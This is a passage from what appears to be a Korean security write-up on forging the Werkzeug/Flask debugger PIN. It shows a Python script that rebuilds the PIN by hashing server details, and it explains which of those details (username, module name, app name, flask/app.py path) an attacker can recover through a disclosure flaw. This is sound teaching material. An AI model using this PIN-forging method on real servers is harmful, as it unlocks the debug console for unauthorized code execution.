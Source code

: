 ```
    rv = None
    num = None

    h = hashlib.sha1()
    for bit in chain(probably_public_bits, private_bits):
        if not bit:
            continue
        if isinstance(bit, str):
            bit = bit.encode()
        h.update(bit)
    h.update(b"cookiesalt")

    cookie_name = f"__wzd{h.hexdigest()[:20]}"

    # If we need to generate a pin we salt it a bit more so that we don't
    # end up with the same value and generate out 9 digits
    if num is None:
        h.update(b"pinsalt")
        num = f"{int(h.hexdigest(), 16):09d}"[:9]

    # Format the pincode in groups of digits for easier remembering if
    # we don't have a result yet.
    if rv is None:
        for group_size in 5, 4, 3:
            if len(num) % group_size == 0:
                rv = "-".join(
                    num[x : x + group_size].rjust(group_size, "0")
                    for x in range(0, len(num), group_size)
                )
                break
        else:
            rv = num
    return rv

print(generate_pin())
```

코드를 보면 PIN 번호를 생성하기 위해 probably_public_bits, private_bits 두 리스트를 사용한다. 리스트의 요소 값들은 서버 측의 정보를 필요로 하여 일반적으로는 유추해낼 수 없으나 지금과 같이 서버 내부 정보를 파악할 수 있는 취약점이 존재한다면 요소 값들을 알아낼 수 있다.

먼저 probably_public_bits 리스트의 각 요소는 다음의 의미를 가지고 있다.

#### username : app.py를 실행한 사용자의 이름 

#### modname : 일반적으로 flask.app 으로 지정됨.

#### getattr(app, "__name__", type(app).__name__) : 일반적으로 Flask로 지정됨.

#### getattr(mod, "__file__", None) : 서버 측 Flask 모듈 폴더의 app.py 파일이 존재하는 절대경로. 파이썬 버전마다 다르므로 확인이 필요함. (일반적으로 usr/local/lib/python[python_version]/site-packages/flask/app.py)
